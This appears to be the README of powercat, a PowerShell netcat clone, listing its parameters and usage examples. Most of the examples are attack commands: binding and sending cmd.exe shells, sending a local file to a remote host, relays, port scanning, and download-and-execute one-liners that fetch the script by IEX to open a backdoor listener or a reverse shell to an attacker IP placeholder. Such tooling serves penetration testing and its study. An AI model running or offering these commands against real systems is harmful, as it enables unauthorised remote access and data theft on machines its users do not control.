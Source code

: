 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u    Transfer data over UDP.                              [Switch]
    -t    Timeout option. Default: 60                          [int32]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Output to a File:
        powershell -c '. .\powercat.ps1; powercat -l 443' > C:\outputfile
    Send a File (String):
        'The string I want to send' | powercat -l 443
        [IO.File]::ReadAllText('C:\inputfile') | powercat -c 10.1.1.10 443
### powercat Relay Examples:
    Listener to Client Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    Listener to Listener Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:4444
    Client to Listener Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:4444
    Client to Client Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:10.1.1.16:3389
    Listener to Client Relay (TCP to UDP):
        powercat -l -p 8000 -r udp:10.1.1.16:53
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        foreach($p in (21,22,80,443)){powercat -c 10.1.1.10 -p $p -t 1 -Verbose}
